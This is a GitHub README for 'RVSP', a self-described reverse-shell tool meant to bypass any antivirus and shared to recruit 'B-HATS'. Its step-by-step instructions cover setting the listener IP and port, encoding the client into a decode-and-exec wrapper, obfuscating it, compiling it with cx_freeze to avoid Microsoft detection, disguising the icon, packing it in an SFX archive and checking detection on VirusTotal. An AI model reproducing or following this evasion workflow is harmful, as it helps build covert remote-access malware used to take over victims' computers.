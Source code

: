 ![alt text](https://github.com/skred91/RVSP-main/blob/main/Banniere.png)


---------------------------------------------------------------------------------------------------------------------------|<br/>
-Hi everyone 👋, welcome to the RVSP github,<br/>

This project consist of bypassing any anti-virus by using a custom reverse-shell<br/>
coded by myself with the help of my friend patoche890. We decided to share this project to found a community of B-HATS<br/>
To Help us in our project. If you wanna help us, there's a discord link upside and in the top-right panel.<br/>
Go see it 👍<br/>

Enjoy our tool 👋<br/>

- [Discord](https://discord.gg/cmA2vpPJSt)

---------------------------------------------------------------------------------------------------------------------------|<br/>

<b>Installation :<b/>

1) You need to install Python 3.12<br>

2) In cmd run :
```ruby
pip install -r requirements.txt
```
3) Go into ./General-Users/Python-Files/ then edit Client.py :
```ruby
SERVER_HOST = '127.0.0.1' --> Put the Server-Listener IP
SERVER_PORT = 4444 --> Put the Server-Listener PORT
```
4) Run encode.py then paste the full path of your Client.py file<br>

5) Copy the encoded client.py then past it in decode-exec.py here :
```ruby
encoded = (""" HERE """)
```

6) Go to pyobfuscate.com And Obfusc the File like this :<br>
   -Code minifier (1)<br>
   -Var Obfusc (2)<br>

7) In the Tools folder you'll found the builder bat file, follow the instructions and the exe will be in the build folder.<br>

8) To change the exe icon or whatever, i've put you the RessourceHacker latest installer ( 18/06/2024 )

/!\ WARNING /!\ I use cx_freeze to compile the exe bcs pyinstaller is flagged by microsoft so you need all the Folder with the exe into it to run it<br>
DISCLAIMER : I recommend you to use an sfx archive, try different method and test it on VirusTotal, for me it haven't work with winrar.<br>
For any question go in the discord server.<br>

GOOD LUCK !
